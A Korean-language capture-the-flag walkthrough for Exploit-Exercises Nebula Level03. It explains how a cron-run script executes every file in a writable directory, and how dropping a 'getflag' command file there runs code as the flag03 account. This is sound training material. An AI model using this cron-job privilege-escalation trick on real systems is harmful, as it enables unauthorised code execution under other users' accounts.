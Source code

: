 # Exploit-exercise Nebula Level03
```
Check the home directory of flag03 and take note of the files there.

There is a crontab that is called every couple of minutes.

To do this level, log in as the level03 account with the password level03. Files for this level can be found in /home/flag03.
```

flag03 의 홈 디렉토리에 들어가고 그곳에 노트를 쓰라고 한다.
또한 crontab 이 2분에 한번씩 그것을 실행한다고 한다.

무슨소린가 해서 `/home/flag03` 디렉토리에 들어갔다.

```
cd /home/flag03
ls
```
```
writable.d writable.sh
```

`writable.d` 디렉토리와 `writable.sh` 파일이 있었다.
`writable.sh` 파일을 보니

```
cat writable.sh
```
```
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
  (ulimit -t 5; bash -x "$i")
  rm -f "$i"
done
```

이러한 스크립트가 나오는데, `writable.d` 폴더 안에 있는 파일들을 `bash -x "$i"` 를 통해 실행시킨다.

즉, `writable.d` 폴더 안에 있는 파일들 모두가 실행된다.

그렇다면 `getflag >> ~/log` 를 적은 파일을 `writable.d` 폴더 안에 넣어두면 된다.

```
echo "getflag >> ~/log" >> /home/flag03/writable.d/aa
```

`>> ~/log` 를 적은 이유는 `getflag` 의 출력을 `/home/flag03/log` 파일에 쓰기 위해서이다.


이 이후 최대 2분을 기다리면 `/home/flag03` 폴더를 확인하면

```
ls
```
```
log writable.d  writable.sh
```

log 파일이 생기게 되고, `cat log` 를 통해 확인하면

```
cat log
```
```
You have successfully executed getflag on a target account
```

라고 뜨면서 풀리게 된다.